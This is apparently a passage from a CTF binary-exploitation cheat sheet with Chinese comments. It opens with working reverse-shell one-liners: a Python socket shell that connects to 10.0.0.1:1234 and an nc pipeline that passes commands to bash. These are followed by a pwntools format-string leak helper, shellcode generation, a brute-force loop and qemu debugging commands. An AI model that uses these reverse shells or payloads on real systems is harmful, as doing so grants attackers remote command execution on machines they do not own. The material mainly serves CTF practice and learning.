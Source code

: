 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
nc 192.168.1.1 4444 | /bin/bash | nc 192.168.1.1 5555
#感觉好机智... 将4444端口传入的东西给sh执行后将结果传给5555端口
```



## fmt_leak
做fmtstr时可以用的一个gadget方便泄露
```
def fmt_leak(lenth):
	for x in range(1,lenth):
		payload="%{}$p".format(str(x))
		p.sendline(payload)
		data=p.readline()
		if (data=="(nil)\n"):
			data="0x0"
		data=(int(data,16))
		log.success("%sth=============>%s",str(x),hex(data))
```
## ELF->"/bin/sh"
	libc.search("/bin/sh").next()
## shellcode
	context.arch='amd64'
	shcode=asm(shellcraft.sh())
## Partial Write Burp
```sh
#!/bin/bash
for i in `seq 1 5000`; do python exp.py; done;
```
## uninitialized variable
堆栈的内容可能被之前的函数控制

## 遗留数据导致泄露
malloc时候没有memset
而且写入数据没有用0截断

## arm & mips 环境
[link][3]
qemu指定lib路径例如：
qemu-mipsel -L /usr/mipsel-linux-gnu/ ./add
qemurun后调试：
qemu-mipsel -g 1234 -L /usr/mipsel-linux-gnu/ ./add


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: https://www.jianshu.com/p/3a2df9b7c353
[9]: https://www.cyberpunk.rs/ghidra-software-reverse-engineering-framework